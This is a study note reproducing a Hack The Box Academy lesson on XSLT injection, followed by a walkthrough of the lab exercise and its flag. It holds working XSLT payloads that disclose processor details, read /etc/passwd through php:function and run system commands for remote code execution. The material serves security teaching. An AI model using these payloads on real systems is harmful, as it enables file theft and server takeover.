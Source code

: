 ```yaml
---
sticker: lucide//languages
---
```


# Exploiting XSLT Injection

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities.&#x20;

***

### Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

***

### Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

***

### Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

***

### Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

## Question

***

!\[]\(Pasted image 20250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

!\[]\(Pasted image 20250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

!\[]\(Pasted image 20250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

!\[]\(Pasted image 20250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

!\[]\(Pasted image 20250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

!\[]\(Pasted image 20250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```
